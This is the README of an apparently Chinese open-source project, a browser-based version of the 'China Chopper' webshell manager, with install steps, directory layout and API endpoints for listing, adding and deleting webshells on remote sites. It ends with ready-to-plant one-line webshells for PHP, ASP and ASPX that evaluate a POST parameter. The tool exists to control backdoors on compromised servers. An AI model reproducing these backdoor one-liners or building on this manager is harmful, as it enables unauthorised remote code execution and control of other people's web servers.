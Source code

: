 ﻿> 项目介绍

为了更方便的而又跨平台的使用“中国菜刀”，我们创建了这个项目。该项目是Web版的"中国菜刀",我们暂时取名叫“血滴子”。欢迎感兴趣的朋友一起交流学习。

> 开发成员及负责方面

MXi4oyu(Python后端，用于处理“管理器对shell的核心操作”)。Email：798033502@qq.com

Black-Hole（JavaScrip前端，用于处理“管理器”在浏览器下的显示）。Email：158blackhole@gmail.com

> 安装方法

1. `pip install beaker`
2. `pip install pymysql`
3. `pip install sqlalchemy`
4. `pip install bottle_sqlalchemy`
5. `pip install jinja2`

> 项目的目录结构

```
www 根目录
├─App               应用目录
│  ├─Common             公共函数库
│  ├─Conf               配置目录
│  ├─Controller         控制器目录
│  ├─Model              模型目录
│  ├─View               视图目录
├─Core              核心目录
├─Public            静态资源目录
│  ├─js                 javascript文件目录branch
│  │  ├─branch          自定义javascript文件
│  │  ├─library         第三方javascript插件
│  ├─css                css文件目录
│  │  ├─branch          自定义css文件
│  │  ├─library         第三方css插件
│  ├─less               css引擎less文件目录
│  │  ├─branch          自定义less文件
│  ├─fonts              字体目录
│  ├─image              图像目录
├─index.py          入口文件
├─ip.txt            记录ip地址
├─passwd.py         生成密码
└─guillotines.sql   数据库文件
```

> API接口说明

#### 获取webshell总数
```javascript
地址:   /RootApi/webshell/total
方式:   GET
参数:   无
类型:   Number
示例:
512
```

#### 获取webshell列表
```javascript
地址:   /RootApi/webshell/list/<page:int>
#每页显示10条记录
方式:   POST
参数:   无
类型:   Json
示例:
{
	"type":"success",
	"info":[
		{
			"id":"1",
			"url":"http://github.com/1.php",
			"category":"PHP",
			"time":"2016-8-31 22:58:28"
		},
		{
			"id":"2",
			"url":"http://google.com/x.php",
			"category":"PHP",
			"time":"2016-8-31 22:59:02"
		}
	]
}
```

#### 添加单个webshell
```javascript
地址:   /RootApi/webshell/add
方式:   POST
参数:
{
	url:'url地址',
	password:'webshell的密码',
	category:'PHP'
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 删除单个webshell
```javascript
地址:   /RootApi/webshell/del
方式:   POST
参数:
{
	url:'url地址',
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 注意事项
只有当API的类型为`Json`格式时才会有错误信息，而且所有的`错误信息`都按照以下格式。
```javascript
{
	"type":"error",
	"info":"错误信息"
}


####血滴子一句话
PHP: <?php @eval($_POST['pass']);?>
ASP: <%eval request("pass")%>
ASPX: <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>